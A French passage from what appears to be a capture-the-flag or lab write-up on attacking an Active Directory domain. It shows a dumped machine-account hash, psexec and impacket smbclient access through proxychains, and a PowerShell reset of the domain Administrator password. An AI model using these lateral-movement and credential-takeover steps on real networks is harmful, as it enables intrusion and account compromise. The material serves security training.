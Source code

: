 
On a alors toutes les informations nécessaires pour la suite.

### L'art du déguisement

En dumpant les hashs avec secretsdumps on remarque l'utilisateur ADMDESK01$ 

```
ADMDESK01$:4228:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

On tente alors un ping sur le host admdesk01.pramacorp.fr à l'aide d'un psexec sur l'AD.

```
C:\Windows\system32>ping admdesk01.pramacorp.fr

Pinging admdesk01.pramacorp.fr [10.10.0.205] with 32 bytes of data:
Reply from 10.10.0.205: bytes=32 time<1ms TTL=128
Reply from 10.10.0.205: bytes=32 time<1ms TTL=128
Reply from 10.10.0.205: bytes=32 time<1ms TTL=128
Reply from 10.10.0.205: bytes=32 time<1ms TTL=128

Ping statistics for 10.10.0.205:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

On s'y connecte et on regarde les utilisateurs.

```
proxychains impacket/examples/smbclient.py Administrator@admdesk01.pramacorp.fr -k -no-pass
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.205:445-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.203:88-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.204:88-<><>-OK
Type help for list of commands
# shares
ADMIN$
C$
IPC$
# use c$
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# exit
```

Le ticket kerberos ne fonctionne pas. On va alors tenter de s'identifier avec un couple login/mot de passe en changeant le mot de passe Administrateur sur l'AD pramacorp.fr.

```
powershell "Set-ADAccountPassword -Identity Administrator -Reset -NewPassword (ConvertTo-SecureString -AsPlainText 'monmdpsecurisedelamort' -Force)"
```
